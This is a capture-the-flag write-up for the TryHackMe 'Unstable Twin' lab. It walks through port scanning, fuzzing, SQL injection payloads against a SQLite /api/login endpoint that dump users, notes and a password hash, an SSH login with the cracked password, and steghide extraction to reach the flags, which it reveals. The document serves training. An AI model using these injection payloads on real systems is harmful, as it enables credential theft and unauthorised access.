## TL;DR

In this challenge we exploit `SQLi` we find at `/api/login`, on the build of `Vincent`. We find the hash of `mari_an`, and use it to connect via `ssh`.

Then, we find hidden message using `steg_hide` inside images, sort it, and decode it in `base62` to get the final flag.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



We can see port `22` with ssh and port `80` with nginx http server.
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                                                  
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.0 (protocol 2.0)                                                                                               
| ssh-hostkey:                                                                                                                                               
|   3072 ba:a2:40:8e:de:c3:7b:c7:f7:b3:7e:0c:1e:ec:9f:b8 (RSA)                                                                                               
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDP/bNr/nN/6PCa1yFPjA11XH0aZeVg2OMFGyxF3iCBim97a/vA33LYCnDGh7jjSP+wEzu2Xh6whOuRU147tRglKgXMVqMx7GIfBKp92pPnePbCQi6Qy9Sp1hJCIK9Ik2qzYbVOHr6vSJVRGKdZuCDrqip67tHPJSqtDKvuTS8PTcWav17y0IhBrcU2KoGptwml4I/j3RO/aVYblAEKMH0tn9vy59tokTm0CoPXjZCH7KJfL87YAdyacAA6FB2DIFEupf56qGoGNUP9v7AMaF6Uj/5ywDduik/YOdvBR7AVlX2IOaAu4yLRWIh9S4XvlzCB3N+UyQmXRKSzcSyhKXIRJYidCs0SwhCTF+umbmtMAfHghLBz4pkLbhbqrVqkf0GA8wKyG9rX6LSUl6/SwhtAeFPIQxnnP6OHxrcKHy4BooCVNpur5fkioel5VHO90cK0xzlPWGJ8P4HOnDRmLWpyBAmmPjY8BHNB4rLccZLz1e648h7Zs9sFvhjJD8ONgW0=
|   256 38:28:4c:e1:4a:75:3d:0d:e7:e4:85:64:38:2a:8e:c7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH7P2OEvegGP6MfdwJdgVn3xIYEH6LXyzBs5hQ5fPpMZDZdHo5a6J2HR+KShaslzYk83WGNBSJt+hQUGv0Kr+Hs=
|   256 1a:33:a0:ed:83:ba:09:a5:62:a7:df:ab:2f:ee:d0:99 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN0pHtBDjHWNJSlxl5M/LfHJztN6HJzi30Ygi1ysEOJN
80/tcp open  http    syn-ack ttl 62 nginx 1.14.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD 
|_http-server-header: nginx/1.14.1
```

I added `unstabletwin.thm` to my `/etc/hosts`.


### Exploit SQLi found on /api/login to get mary_ann's hash and crack it

I started with fuzzing, and found the endpoint `/info`:
```bash
┌──(agonen㉿kali)-[~/thm/UnstableTwin]                                                                                                                       
└─$ ffuf -u "http://unstabletwin.thm/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403                                                   
                                                                                                                                                             
        /'___\  /'___\           /'___\                                                                                                                      
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                     
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                      
          \/_/    \/_/   \/___/    \/_/                                                                                                                      
                                                                                                                                                             
       v2.1.0-dev                                                                                                                                            
________________________________________________                                                                                                             
                                                                                                                                                             
 :: Method           : GET                                                                                                                                   
 :: URL              : http://unstabletwin.thm/FUZZ                                                                                                          
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt                                                                            
 :: Follow redirects : false                                                                                                                                 
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

info                    [Status: 200, Size: 148, Words: 29, Lines: 2, Duration: 163ms]
:: Progress: [4750/4750] :: Job [1/1] :: 221 req/sec :: Duration: [0:00:22] :: Errors: 0 ::
```



It says:
```
The login API needs to be called with the username and password form fields fields.  It has not been fully tested yet so may not be full developed and secure
```

When I first tried to get this endpoint, I got server name `Julias`:



However, when I tried again, I got server name `Vincent`.



We've been told that *but Vincent has messed up the deployment!*, maybe we can use it.
Okay, the message says that the api login should be called with `username` and `password`.

Using `ffuf`, I found that there is some endpoint `/api/login`:
```bash
┌──(agonen㉿kali)-[~/thm/UnstableTwin]
└─$ ffuf -u "http://unstabletwin.thm/api/FUZZ" -X POST -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://unstabletwin.thm/api/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

login                   [Status: 200, Size: 51, Words: 8, Lines: 2, Duration: 164ms]
:: Progress: [4750/4750] :: Job [1/1] :: 262 req/sec :: Duration: [0:00:19] :: Errors: 0 ::
```

Okay, I tried to check for SQL Injection, and found it there is:
```bash
┌──(agonen㉿kali)-[~/thm/UnstableTwin]
└─$ curl 'http://unstabletwin.thm/api/login' -X POST -d "username=a' or '1'='1' -- -&password=LOL"
[
  [
    2, 
    "julias"
  ], 
  [
    4, 
    "linda"
  ], 
  [
    5, 
    "marnie"
  ], 
  [
    1, 
    "mary_ann"
  ], 
  [
    3, 
    "vincent"
  ]
]
```



We got 5 users.

Okay, I realized this is `sqlite`, and grab the sqlite master schema:
```bash
username=bla'+Union select SQL,null from sqlite_master -- -&password=bla
```



and we got back (after chatGPT reformating):
```bash
-- Users table
CREATE TABLE "users" (
    "id"        INTEGER PRIMARY KEY AUTOINCREMENT,
    "username"  TEXT NOT NULL UNIQUE,
    "password"  TEXT NOT NULL UNIQUE
);

-- Notes table
CREATE TABLE "notes" (
    "id"        INTEGER PRIMARY KEY,
    "user_id"   INTEGER,
    "note_sql"  INTEGER,
    "notes"     TEXT
);

-- Indexes
CREATE INDEX "id"
ON "users" ("id");

CREATE INDEX "note_ids"
ON "notes" (
    "id" ASC,
    "user_id" ASC,
    "note_sql" ASC
);

-- SQLite internal table
CREATE TABLE sqlite_sequence (
    name,
    seq
);
```

Now, let's grab all data from users:
```bash
username=bla' Union select id,username||':'||password from users -- -&password=bla
```

and we got the data.
```bash
[
  [
    1, 
    "mary_ann:continue..."
  ], 
  [
    2, 
    "julias:Red"
  ], 
  [
    3, 
    "vincent:Orange"
  ], 
  [
    4, 
    "linda:Green"
  ], 
  [
    5, 
    "marnie:Yellow "
  ]
]
```

Next, I want all the notes from table notes
```bash
username=bla' Union select note_sql,notes from notes -- -&password=bla
```



and we got back the notes:
```bash
[
  [
    1, 
    "I have left my notes on the server.  They will me help get the family back together. "
  ], 
  [
    2, 
    "My Password is eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422cf984324f645b84427343f4\n"
  ]
]
```

We got some hash, I crack it using [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash)
```bash
eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422cf984324f645b84427343f4:experiment
```



We can login with the credentials we got:
```bash
ssh mary_ann@unstabletwin.thm # experiment
```



and grab the user flag:
```bash
[mary_ann@UnstableTwin ~]$ cat user.flag 
THM{Mary_Ann_notes}
```

### Find last flag hidden on images and connect together, then decoded in base62

Now, let's read the notes:
```bash
[mary_ann@UnstableTwin ~]$ cat server_notes.txt 
Now you have found my notes you now you need to put my extended family together.

We need to GET their IMAGE for the family album.  These can be retrieved by NAME.

You need to find all of them and a picture of myself!
```

I navigated around the file system, and found inside `/opt/unstabletwin` lot of files, include the website, with the underlying service, on port `5000` and in port `5001`.
```bash
[mary_ann@UnstableTwin unstabletwin]$ ls -la
total 628
drwxr-xr-x. 3 root root    288 Feb 13  2021  .
drwxr-xr-x. 3 root root     26 Feb 13  2021  ..
-rw-r--r--. 1 root root  40960 Feb 13  2021  database.db
-rw-r--r--. 1 root root   1214 Feb 13  2021  main_5000.py
-rw-r--r--. 1 root root   1837 Feb 13  2021  main_5001.py
drwxr-xr-x. 2 root root     36 Feb 13  2021  __pycache__
-rw-r--r--. 1 root root    934 Feb 13  2021  queries.py
-rw-r--r--. 1 root root 320277 Feb 10  2021 'Twins (1988).html'
-rw-r--r--. 1 root root  56755 Feb 13  2021  Twins-Arnold-Schwarzenegger.jpg
-rw-r--r--. 1 root root  47303 Feb 13  2021  Twins-Bonnie-Bartlett.jpg
-rw-r--r--. 1 root root  50751 Feb 13  2021  Twins-Chloe-Webb.jpg
-rw-r--r--. 1 root root  42374 Feb 13  2021  Twins-Danny-DeVito.jpg
-rw-r--r--. 1 root root  58549 Feb 13  2021  Twins-Kelly-Preston.jpg
```



Okay, let's download the images:

After downloading, I extract data using `steghide`, the password was empty.
Just execute the next command for every image:
```bash
steghide extract -sf Twins-Kelly-Preston.jpg
```



When reading all the files, we get this:
```bash
┌──(agonen㉿kali)-[~/thm/UnstableTwin/images]
└─$ cat *.txt     
Red - 1DVsdb2uEE0k5HK4GAIZ
Green - eVYvs6J6HKpZWPG8pfeHoNG1 
Yellow - jKLNAAeCdl2J8BCRuXVX
You need to find all my children and arrange in a rainbow!
Orange - PS0Mby2jomUKLjvQ4OSw
```

Okay, let's arrange this:
```bash
You need to find all my children and arrange in a rainbow!
Red - 1DVsdb2uEE0k5HK4GAIZ
Orange - PS0Mby2jomUKLjvQ4OSw
Yellow - jKLNAAeCdl2J8BCRuXVX
Green - eVYvs6J6HKpZWPG8pfeHoNG1 
```

And this is the string we get:
```bash
1DVsdb2uEE0k5HK4GAIZPS0Mby2jomUKLjvQ4OSwjKLNAAeCdl2J8BCRuXVXeVYvs6J6HKpZWPG8pfeHoNG1
```

Using [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/) I found out this was encoded in `base62`



and we get the message:
```bash
You have found the final flag THM{The_Family_Is_Back_Together}
```

